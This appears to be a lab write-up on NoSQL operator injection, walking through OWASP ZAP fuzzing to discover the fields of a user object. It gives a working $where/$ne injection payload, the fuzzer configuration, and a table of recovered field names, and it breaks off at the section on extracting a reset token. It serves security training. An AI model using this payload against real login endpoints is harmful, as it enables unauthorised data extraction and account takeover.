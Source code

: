 # Lab: Exploiting NoSQL operator injection to extract unknown fields [OWASP Zed Attack Proxy]

## Brute-forcing to identify all the fields on the user object

> Burp Suite Community edition's __Intruder__ being useless brought us here. 

Attempt a log in with credentials `carlos:invalid`. Find the `POST /login` request, right-click it and select "Open in Requester Tab". Right-click it there as well and select "Fuzz..."

A Fuzzer opens up, click "Edit" replace the request body with the following:

```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where":"Object.keys(this)[1].match('^.{0}a.*')"}
```

Click "Save". First select `1` at `..(this)[1]..`, click "Add..." below Fuzz Locations, click "Add..." in the new window and then select "Numberzz" from the dropdown. Enter From `1` to `9`. Click "Add" and then "OK". 

Now add another Fuzz location the same way for `0` at `{0}`. Again, select "Numberzz" and input From `0` to `20`. 

Now add another Fuzz location the same way for `a` at `{0}a.*`. Select "Regex" and add the following regex `[a-zA-Z0-9]`. You can generate preview to make sure it's correct. 

Start Fuzzer! Could this have been any more beautiful?


| param 1  | param 2  | param 3  | param 4  |
|-------------------------------------------|
| 1, 0, u  | 2, 0, p  | 3, 0, e  | 4, 0, f  |
| 1, 1, s  | 2, 1, a  | 3, 1, m  | 4, 1, o  |
| 1, 2, e  | 2, 2, s  | 3, 2, a  | 4, 2, r  |
| 1, 3, r  | 2, 3, s  | 3, 3, i  | 4, 3, g  |
| 1, 4, n  | 2, 4, w  | 3, 4, l  | 4, 4, o  |
| 1, 5, a  | 2, 5, o  | .......  | 4, 5, t  |
| 1, 6, m  | 2, 6, r  | .......  | 4, 6, P  |
| 1, 7, e  | 2, 7, d  | .......  | 4, 7, w  |
| .......  | .......  | .......  | 4, 8, D  |

Took it about 20 minutes.

## Brute-forcing to extract the value of Carlos's password reset token


